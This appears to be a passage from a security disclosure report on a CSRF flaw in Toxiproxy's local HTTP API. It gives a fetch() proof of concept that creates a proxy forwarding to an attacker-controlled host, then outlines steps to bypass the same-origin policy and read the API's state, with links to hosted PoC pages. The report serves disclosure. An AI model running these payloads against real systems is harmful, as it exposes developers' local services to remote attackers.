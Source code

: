 A number of servers have been setup on [toxiproxy.attackerdoma.in](http://toxiproxy.attackerdoma.in) to facilitate the PoCs, the source code for these can be found at the following private gist: [gist.github.com/bored-engineer/50aa6591f307d51c28b4be71dd80f8a9](https://gist.github.com/bored-engineer/50aa6591f307d51c28b4be71dd80f8a9). Please note that these are servers are hosted on ephemeral instance and likely will not remain online after the report has been triaged and resolved. 

# PoC - Create a new proxy
Demonstrating the issue is fundamentally pretty simple and can be done as follows...

PoC available at: [attackerdoma.in/7c9e1586-ab53-48d7-9704-165865a90ab1.html](http://attackerdoma.in/7c9e1586-ab53-48d7-9704-165865a90ab1.html)

```js
fetch("http://localhost:8474/proxies", {
	method: "POST",
	mode: "no-cors",
	body: JSON.stringify({
		name: "csrf",
		listen: "0.0.0.0:2773",
		upstream: "toxiproxy.attackerdoma.in:12773",
		enabled: true
	}),
});
```

You can verify the PoC worked correctly by either accessing the new proxy at [http://127.0.0.1:2773/1efb54c5](http://127.0.0.1:2773/1efb54c5) or via the [toxiproxy-cli](https://github.com/Shopify/toxiproxy#cli-example):

```
$ toxiproxy-cli inspect csrf
Name: csrf	Listen: 127.0.0.1:2773	Upstream: toxiproxy.attackerdoma.in:2773
======================================================================
Proxy has no toxics enabled.
```

# PoC - Bypass SOP to read current state
While we can CSRF the creation of proxies, we cannot read the current toxiproxy state which could contain useful information for an attacker as it is blocked by [SOP](https://en.wikipedia.org/wiki/Same-origin_policy). We can bypass this restriction by executing the following steps:

1. CSRF create a new `pivot` proxy pointing to `http://attackerdoma.in:17486`
2. Redirect the webpage to the new `pivot` proxy
3. From the new webpage use the CSRF to change the upstream for the `pivot` proxy to point to `http://127.0.0.1:8474` (the toxiproxy HTTP API)
4. Make a XHR request to read the configuration (because the browser believes it is still communicating with the same origin, this is allowed)


PoC available at: [attackerdoma.in/a10f2786-7149-43e8-8a90-b3fa46caafd5.html](http://attackerdoma.in/a10f2786-7149-43e8-8a90-b3fa46caafd5.html)

The PoC for this consists of two stages...
